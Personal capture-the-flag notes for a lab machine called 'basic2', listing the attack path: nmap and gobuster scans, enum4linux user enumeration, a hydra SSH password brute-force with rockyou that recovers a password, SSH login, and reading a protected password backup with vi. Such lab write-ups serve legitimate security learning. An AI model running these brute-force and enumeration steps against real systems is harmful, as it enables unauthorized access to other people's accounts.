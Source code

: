 IP		
	
	10.10.141.243

commands
	
	nmap -A -T4 -Pn -oN initial_scan.txt 10.10.141.243
		to search for open ports		

	gobuster dir -u http://10.10.141.243 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
		looking for internal assets		->		/development

	enum4linux -a 10.10.141.243
		search for users in server files and logs		->		jan, kay

	hydra -t 4 -l jan -P ~/Desktop/rockyou.txt ssh://10.10.141.243
		brute-force the passwd for user named 'jan'		->		armando

	ssh jan@10.10.141.243
		use the 'armando' passsword to login into machine as user 'jan'

	--> after logging in, found private key for user 'kay' in ' /home/kay/.ssh/is_rsa '
		couldn't extract private key out of the machine to local system :(

		But then i say a comment under a write-up.
		it said " 'pass.bak' is visible to 'vi' but permittion denied to 'cat' "
		so thats it, it tried and vollah! final password found
		
	vi pass.bak
			heresareallystrongpasswordthatfollowsthepasswordpolicy$$


users

	jan
	kay

open ports 
	
	22		ssh
	80		http
	139	    samba smbd
	445		samba smbd	  4.3.11-Ubuntu
	8009	ajp13?

OS 
	
	windows 6.1

computer name 
	
	basic2
